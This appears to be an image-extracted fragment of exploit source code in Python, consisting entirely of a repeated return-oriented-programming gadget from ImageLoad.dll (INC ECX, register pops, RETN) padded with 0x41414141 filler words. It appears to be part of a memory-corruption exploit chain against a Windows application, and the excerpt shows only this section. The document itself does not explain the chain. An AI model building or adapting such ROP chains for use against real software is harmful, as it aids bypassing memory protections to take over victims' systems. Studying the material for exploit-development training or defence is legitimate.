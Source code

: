 ```python
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
```